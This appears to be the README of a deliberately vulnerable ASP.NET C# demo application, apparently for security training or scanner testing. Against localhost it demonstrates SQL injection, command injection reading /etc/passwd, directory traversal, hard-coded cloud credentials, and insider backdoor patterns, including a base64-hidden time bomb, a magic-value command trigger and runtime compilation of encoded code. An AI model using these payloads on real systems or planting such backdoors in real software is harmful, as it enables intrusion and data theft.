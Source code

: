 # ASP.NET C\# Vulnerability Demo

## Setup
* cd ${workplace}
* docker-compose up --build
* {open browser and navigate to [http://localhost:5005](http://localhost:5005)}

## Vulnerability Demo

### SQL Injection:
- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=abc%27%20UNION%20SELECT%20Id,%20Username,%20Password%20FROM%20AspnetUsers%20--" http://localhost:5005/SearchStudentUnsecure
    
    # This will leak all of the registered users in the system:
    [{"id":0,"aspNetUserId":1,"lastName":"*_admin","firstName":"Admin","fullName":"*_admin, Admin"},
    {"id":0,"aspNetUserId":2,"lastName":"!_temp","firstName":"Temp","fullName":"!_temp, Temp"},
    {"id":0,"aspNetUserId":3,"lastName":"@_guest","firstName":"Guest","fullName":"@_guest, Guest"}]
    ```
    
### Remote code execution:
- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=cat /etc/passwd" http://localhost:5005/ExecCmdSecure
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```

### Directory traversal:

- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=../../etc/passwd" http://localhost:5005/dirTraversal
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```
http://localhost:5005/dirTraversal?name=${name}`

### Hard Coded credentials:
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs#L96):
    ```java
    [HttpGet("vulns")]
    public ActionResult DataLeakage(string login, string password, string encodedPath, string entityDocument) {
        String ACCESS_KEY_ID = "AKIA2E0A8F3B244C9986";
        String SECRET_KEY = "7CE556A3BC234CC1FF9E8A5C324C0BB70AA21B6D";
    ```
    
### Sensitive data leak:
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs#L110):
    ```java
    [HttpGet("vulns")]
    public ActionResult DataLeakage(string login, string password, string encodedPath, string entityDocument) {
        String ACCESS_KEY_ID = "AKIA2E0A8F3B244C9986";
        String SECRET_KEY = "7CE556A3BC234CC1FF9E8A5C324C0BB70AA21B6D";
            
        Console.WriteLine(" AWS Properties are " + ACCESS_KEY_ID + " and " + SECRET_KEY);
        Console.WriteLine(" Transactions Folder is " + txns_dir);
    ```
    
### Insider attack:
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs):
1.  Time Bomb pattern
    ```java
    // RECIPE: Time Bomb pattern
    String command = "c2ggL3RtcC9zaGVsbGNvZGUuc2g=";
    ticking(command);
    ```
    
2. Magic Value leading to command injection
    ```java
    if (tracefn == "C4A938B6FE01E") {
        runtTimeExec(cmd);
    }
    ```

3. // RECIPE: Compiler Abuse Pattern
    ```java
    /*  string code = @"
        using System;
        namespace First
        {
            public class Program
            {
                public static void Main()
                {
                    Console.WriteLine('HAHAHA');
                }
            }
        }
    "; */

    String base64Str = "dXNpbmcgU3lzdGVtOwpuYW1lc3BhY2UgRmlyc3QKewogICBwdWJsaWMgY2xhc3MgUHJvZ3JhbSB7CiAgICAgIHB1YmxpYyBzdGF0aWMgdm9pZCBNYWluKCkgewogICAgICAgICAgICAgQ29uc29sZS5Xcml0ZUxpbmUoIkhBSEFIQSIpOwogICAgICB9CiAgIH0KfQ==";
    ```
    
    ```java
    // Compile source file.
    CSharpCompilation compilation = CSharpCompilation.Create(
                assemblyName,
                syntaxTrees: new[] { syntaxTree },
                references: references,
                options: new CSharpCompilationOptions(OutputKind.DynamicallyLinkedLibrary));
    ```
   
    ```java
    // Load and instantiate compiled class.
    Assembly assembly = AssemblyLoadContext.Default.LoadFromStream(ms);
    var type = assembly.GetType("First.Program");
    MethodInfo main = type.GetMethod("Main");
    main.Invoke(null, null);
    ```

### Business logic flaw
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs):
    ```java
    [HttpPost("AddNewOrder")]
    public ActionResult AddNewOrderFlaw(string reader) {
        Order order = JsonConvert.DeserializeObject<Order>(reader);
        return Content(order.ToString());
    }
    ```
- Command-Line Demo:
    ```sh
    $ curl -X POST -d "reader={\"Id\":0,\"AspNetUserId\":1,\"LastName\":\"Xu\",\"FirstName\":\"Zhaoyan\",\"FullName\":\"Luke\'' Father\",\"AspNetUser\":null}" http://localhost:5005/AddNewOrder
    
      SqlInjection.Models.Order 
    ```
- UI Demo:
